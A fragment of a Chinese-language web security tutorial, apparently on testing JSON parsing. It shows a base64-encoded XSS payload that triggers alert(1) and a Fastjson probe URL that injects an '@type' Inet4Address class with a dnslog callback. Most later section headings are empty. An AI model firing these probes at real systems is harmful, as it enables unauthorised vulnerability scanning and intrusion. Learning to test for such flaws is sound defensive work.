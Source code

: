 ```
eyJuYW1lIjoiYCthbGVydCgxKStgIn0=
```



即可成功弹窗！









## Fastjson 案例

fastjson是阿里巴巴开发的json解析库，可以将 Java 对象转换为 JSON 格式，当然它也可以将 JSON 字符串转换为 Java 对象。

### GET 传参案例案例

原链接：

```
http://127.0.0.1/fastjson/json-in-query?auth={"user":"admin","password":"password"}
```



构造：

```
http://127.0.0.1/fastjson/json-in-query?auth={"@type":"java.net.Inet4Address","val":"dnslog"}&action=login
```



### POST Form传参案例案例



### POST Body传参案例案例



### Cookie 传参案例案例



### Authorization 传参案例案例



### GET 传参Jackson后端案例



### 网络不稳定的靶站



### GET 传参且应用部署在内网的案例
